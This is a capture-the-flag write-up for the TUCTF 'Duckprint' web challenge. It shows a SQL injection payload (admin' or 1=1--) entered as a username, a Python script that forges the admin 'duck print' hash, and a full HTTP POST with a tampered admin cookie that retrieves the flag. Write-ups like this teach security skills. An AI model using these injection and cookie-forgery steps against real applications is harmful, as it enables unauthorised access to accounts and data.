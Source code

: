 # Duckprint (Web, 100pts)

See if you can steal the admin's duck print and validate it!

When calculating the SHA, leave the periods in

http://130.211.242.26:31337


## Solution

We get simple web application, where we can register user and generate something called "Duck print" (hash calculated from couple of values). There's also validation of "Duck print", but only admin user is allowed.

![Duckprint](assets/dp2.png)

After registering a user, Duck print is generated with some additional factors (cookie in format {username:username,admin:0}  and token):

![Duckprint](assets/dp3.png)

Also, in _generate.php_ source code there's a comment with SQL query, where we can find easy to exploit SQL Injection flaw ($username is used without any sanitization):

```
<label for='username' >Username:</label>
<!-- $query = "SELECT * FROM users WHERE username ='" . $username . "'"; -->
<input type='text' name='username' id='username' maxlength="50" />
<input type='submit' name='Submit' value='Submit' />
```

Using one of the basics SQL Injection payloads as username in _register.php_, there's a long list of many interesting usernames used by other teams to solve this challenge:

```
admin' or 1=1-- 
```

Result:

![Duckprint](assets/dp1.png)


First one looks very interesting as it's only one with admin flag set to '1':

```
DuckDuckGoose:1:d4rkw1ng
```

I've created quick Python tool to generate valid Duck print for DuckDuckGoose user using all required parts (token _d4rkw1ng_ from line above, cookie in expected format and _DuckDuckGoose_ as username)

```Python
#!/usr/bin/python
import base64
import hashlib

# Generate SHA:
# sha256(b64(username) + "." + b64(cookie) + "." + b64(token))

username = "DuckDuckGoose"
token = "d4rkw1ng"
cookie = '{"username":"DuckDuckGoose","admin":1}'

print hashlib.sha256(base64.b64encode(username) + "." + base64.b64encode(
    cookie) + "." + base64.b64encode(token)).hexdigest()

# Result: d626290acdc6a948a5f2b5c2850730f4e4b2bdbd36da01226a192985d20d787d

```

Then, using generated Duck print and cookie for DuckDuckGoose, which was the only user with access to _validate.php_ page, I was able to create final request:

```
POST /validate.php HTTP/1.1
Host: 130.211.242.26:31337
Content-Length: 100
Pragma: no-cache
Cache-Control: no-cache
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: http://130.211.242.26:31337
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.112 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http://130.211.242.26:31337/validate.php
Accept-Encoding: gzip, deflate
Accept-Language: pl-PL,pl;q=0.8,en-US;q=0.6,en;q=0.4
Cookie: duck_cookie=%7B%22username%22%3A%22DuckDuckGoose%22%2C%22admin%22%3A1%7D
Connection: close

submitted=1&duckprint=d626290acdc6a948a5f2b5c2850730f4e4b2bdbd36da01226a192985d20d787d&submit=Submit
```

and get the flag:

TUCTF{Quacky_McQuackerface}

![Duckprint](assets/dp4.png)
